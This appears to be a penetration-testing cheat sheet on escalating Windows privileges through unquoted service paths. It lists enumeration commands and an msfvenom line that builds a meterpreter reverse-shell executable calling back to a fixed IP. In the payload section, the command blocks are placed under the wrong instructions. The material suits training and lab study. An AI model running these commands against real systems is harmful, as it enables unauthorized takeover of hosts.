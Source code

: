 # Unquoted Service Paths

{% hint style="info" %}
Summary:

* Service must have unquoted service path
* Service must be running as desired user (i.e. higher privileged user)
* Service must be able to be restart
* Service must be able to be restarted by the current user
* Unquoted path can be written by the current user
{% endhint %}

## Look for unquoted service path vuln

Check for vulnerable services

```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

Or use Powershell

```
powershell -c "Get-Service"
```

If using winPEAS

```
.\winpeas.exe servicesinfo
```

## Get additional information

Make sure the vulnerable service runs as high privileged user:

```
sc qc <servicename>
```

If using PowerUp.ps1, make sure `CanRestart` field is `True` for the vulnerable service.

```
.\accesschk.exe /accepteula -ucqv <ServiceName>
```

If the service can be restarted, check if we can write to the service path. This can be checked manually with `accesschk.exe`

```
icacls <File Path>
.\accesschk.exe /accepteula -uwdq <File Path>
```

## Running payload

Create a payload and place at the unquoted path

```
net stop/start <ServiceName>
sc stop/start <ServiceName>
```

Restart the service / reboot the host. To restart the service, use either of the following command line tools.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.189 LPORT=80 EXITFUNC=thread -f exe -o Iperius.exe
```

Start multi handler and migrate to new process (meterpreter)

```
run post/windows/manage/migrate
```

Here's a good example to follow: [https://www.exploit-db.com/exploits/48543](https://www.exploit-db.com/exploits/48543)
